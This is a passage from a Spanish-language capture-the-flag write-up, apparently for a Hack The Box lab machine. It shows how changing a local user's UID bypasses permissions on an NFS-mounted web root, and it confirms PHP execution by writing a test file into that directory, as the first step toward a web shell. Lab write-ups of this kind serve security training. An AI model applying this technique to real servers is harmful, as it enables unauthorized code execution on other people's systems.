 Tras modificar el identificador de usuario de **gzzcoo** para que coincida con el grupo **2017**, logramos acceder al directorio **/mnt/html**. Dentro de este directorio, confirmamos que los archivos ahora están bajo el control del usuario **gzzcoo** con el grupo **www-data**. Esto incluye los subdirectorios **css**, **images**, y **js**, así como el archivo **index.html**, que tiene permisos de lectura solo para el usuario **gzzcoo** y el grupo **www-data**.

```bash
❯ sudo usermod -u 2017 gzzcoo
❯ sudo su gzzcoo -c bash
gzzcoo@kali:/mnt$ ls -l html/
total 44
drwxr-xr-x 2 gzzcoo www-data  4096 feb 16 00:30 css
drwxr-xr-x 2 gzzcoo www-data  4096 feb 16 00:30 images
-rw-r----- 1 gzzcoo www-data 32532 feb 16 00:30 index.html
drwxr-xr-x 2 gzzcoo www-data  4096 feb 16 00:30 js
```

### Creating a web shell to gain system access

Probamos escribir un archivo en el directorio **/mnt/html** con el siguiente comando. El archivo **gzzcoo.txt** se creó correctamente con permisos **rw-rw-r--** para el usuario **gzzcoo** y el grupo **gzzcoo**, lo que significa que tenemos permisos suficientes para escribir en este directorio.

```bash
gzzcoo@kali:/mnt/html$ echo 'gzzcoo was here' > gzzcoo.txt
gzzcoo@kali:/mnt/html$ ls -l gzzcoo.txt 
-rw-rw-r-- 1 gzzcoo gzzcoo 16 feb 16  2025 gzzcoo.txt
```

Verificamos que, dado que subimos el archivo **gzzcoo.txt** en **/var/www/html** y la máquina tenía una página web montada, al hacer un **curl** hacia la URL correspondiente, obtuvimos el resultado del archivo creado en la montura NFS.

El contenido del archivo **gzzcoo.txt** se mostró correctamente como **gzzcoo was here**, lo que confirma que la escritura en el directorio fue exitosa y accesible a través del servidor web.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.txt'
gzzcoo was here
```

Probamos realizar lo mismo con un archivo **PHP** para ver si la página web lo interpretaba correctamente. Creamos el archivo **gzzcoo.php** con el siguiente contenido:

```bash
gzzcoo@kali:/mnt/html$ echo '<?php echo "gzzcoo was here";?>' > gzzcoo.php
gzzcoo@kali:/mnt/html$ ls -l gzzcoo.php 
-rw-rw-r-- 1 gzzcoo gzzcoo 32 feb 16  2025 gzzcoo.php
```

Al hacer la petición HTTP al archivo **gzzcoo.php** mediante el siguiente comando, se confirma que la página web está interpretando el archivo PHP correctamente, lo que indica que hemos logrado ejecutar código PHP en el servidor web a través de la montura NFS.

```bash
❯ curl -s 'http://10.10.11.191/gzzcoo.php'
gzzcoo was here
```
